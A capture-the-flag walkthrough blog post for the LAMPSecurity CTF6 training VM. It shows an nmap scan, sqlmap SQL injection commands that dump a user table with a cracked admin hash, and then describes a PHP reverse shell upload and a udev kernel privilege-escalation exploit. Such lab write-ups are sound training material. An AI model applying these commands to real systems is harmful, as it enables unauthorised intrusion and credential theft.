 ```yaml
---
layout: blog_item
title:  "LAMP Security CTF6 - Walkthrough"
date:   2014-03-04 19:40:60
author: Arr0way
description: 'LAMP Security CTF 6 - Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```



<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The LAMPSecurity project is an effort to produce training and benchmarking
tools that can be used to educate information security professionals and test
products.

**Author:** madirish2600

**Download:** [VulnHub](https://www.vulnhub.com)

<div class="note info">
  <h5>Dislcaimer: Multiple Entry Points</h5>
  <p>The LAMPSecurity series is not particularly challenging, for each VM in the series I've targeted the web application as the entry point.</p>
</div>

## Enumeration

### Host Service Enumeration

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 192.168.30.131

{% endhighlight %}

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 4.3 (protocol 2.0)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.3 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 110</code></p></pc>
           </td>
           <td>
              <pc><p>pop3</p></pc>
           </td>
           <td>
               <pc><p>Dovecot pop3d</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 111</code></p></pc>
           </td>
           <td>
              <pc><p>rpcbind</p></pc>
           </td>
           <td>
               <pc><p>N/A</p></pc>
           </td>
        </tr>
        <tr>
          <td>
               <pc><p><code>TCP: 143</code></p></pc>
           </td>
           <td>
              <pc><p>IMAP</p></pc>
           </td>
           <td>
               <pc><p>Dovecot imapd</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 443</code></p></pc>
           </td>
           <td>
              <pc><p>HTTPS</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.3 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 621</code></p></pc>
           </td>
           <td>
              <pc><p>RPC</p></pc>
           </td>
           <td>
               <pc><p>N/A</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 993</code></p></pc>
           </td>
           <td>
              <pc><p>IMAP SSL</p></pc>
           </td>
           <td>
               <pc><p>Dovecot imapd</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 995</code></p></pc>
           </td>
           <td>
              <pc><p>POP3 SSL</p></pc>
           </td>
           <td>
               <pc><p>Dovecot pop3d</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP:3306 </code></p></pc>
           </td>
           <td>
              <pc><p>MySQL</p></pc>
           </td>
           <td>
               <pc><p>MySQL 5.0.45</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>

## Web Application Enumeration

Inspection of the Web Application indicated it was vulnerable to SQL injection.



## SQLMap - SQL Injection

SQLMap confirmed SQL injection was possible.

{% highlight bash %}
[ root:~]# sqlmap -o -u "http://192.168.221.131/?action=login" --forms --dbs

available databases [5]:
[*] cms
[*] information_schema
[*] mysql
[*] roundcube
[*] test
{% endhighlight %}

SQLMap form enumeration:

{% highlight bash %}
[root:~]# sqlmap -o -u "http://192.168.221.131/?action=login" --forms  -D cms
--tables

Database: cms
[3 tables]
+-------+
| user  |
| event |
| log   |
+-------+
{% endhighlight %}

SQLMap database dump + admin account hash cracked:

{% highlight bash %}
[root:~]# sqlmap -o -u "http://192.168.221.131/?action=login" --forms  -D cms
-T user --dump

Database: cms
Table: user
[1 entry]
+---------+---------------+----------------------------------------------+
| user_id | user_username | user_password                                |
+---------+---------------+----------------------------------------------+
| 1       | admin         | 25e4ee4e9229397b6b17776bfceaf8e7 (adminpass) |
+---------+---------------+----------------------------------------------+
{% endhighlight %}

## Web Application Exploitation

Using the previously discovered admin account credentials, it was possible to login to the web application and upload a php reverse shell using an image upload form.

![PHP Web Shell Upload](/img/blog/ctf6/webshell.png)

## Local Privilege Escalation

A successful reverse shell was establish and the kernel appeared to be
vulnerable to a well know [Linux 2.6 kernel udev
exploit](https://www.exploit-db.com/exploits/8478/).

{% highlight bash %}
sh-3.2$ uname -ar
Linux localhost.localdomain 2.6.18-92.el5 #1 SMP Tue Jun 10 18:49:47 EDT 2008
i686 i686 i386 GNU/Linux
{% endhighlight %}

The exploit requires the PID for the udev process, the exploit does not work
flawlessly as you can see below it may take several attempts to get a root
shell.

![Exploit Process UDEV PID](/img/blog/ctf6/exploit-process-udev-pid.png)

Thanks for the VM :)
